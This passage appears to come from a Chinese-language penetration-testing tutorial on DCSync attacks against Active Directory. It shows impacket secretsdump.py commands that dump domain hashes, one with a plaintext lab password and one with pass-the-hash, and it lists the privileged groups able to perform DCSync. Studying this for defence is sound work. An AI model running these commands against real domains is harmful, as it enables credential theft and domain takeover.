 ```
python3 secretsdump.py test/admin:www123456#@192.168.189.128  -dc-ip  192.168.189.128
python3 secretsdump.py 'test.com/admin@dc.test.com' -hashes :6dfad00b946adf3479fba71beeb5e4ac
```

[![image.png](.\图片\a53fe121-44a1-4457-aa9b-be10ee20ab55.png)](https://storage.tttang.com/media/attachment/2022/06/25/a53fe121-44a1-4457-aa9b-be10ee20ab55.png)

## [1、DCSync攻击场景一：](https://tttang.com/archive/1634/#toc_1dcsync_1)

若拿到用户为以下组的用户，即可直接写入DCSync功能，从而dump哈希

```
Administrators组内的用户
domain admins组
enterprise admins组
域控制器的计算机帐户
```

当前admin用户为domain admins组的用户